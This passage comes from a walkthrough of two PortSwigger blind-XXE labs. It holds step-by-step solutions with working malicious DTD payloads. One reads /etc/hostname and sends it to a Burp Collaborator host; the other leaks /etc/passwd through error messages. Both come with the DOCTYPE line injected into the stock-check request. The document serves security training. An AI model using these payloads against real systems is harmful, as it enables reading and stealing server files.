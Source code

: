 
### Quick Solution
In this lab a **malicious** DTD must be crafted and hosted on the exploit server and the **check stock** request must be tampered by adding a XML parameter entity. Payload in the next paragraph.


### Solution
1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Place the Burp Collaborator payload into a malicious DTD file:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
4. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
5. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
6. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
7. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the ``/etc/hostname`` file.

## Exploiting blind XXE to retrieve data via error messages
### Reference: [PortSwigger: Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)


### Solution
1. Click "Go to exploit server" and save the following malicious DTD file on your server:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
When imported, this page will read the contents of ``/etc/passwd`` into the ``file`` entity, and then try to use that entity in a file path.
1. Click "View exploit" and take a note of the URL for your malicious DTD.
2. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
3. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
You should see an error message containing the contents of the ``/etc/passwd`` file.
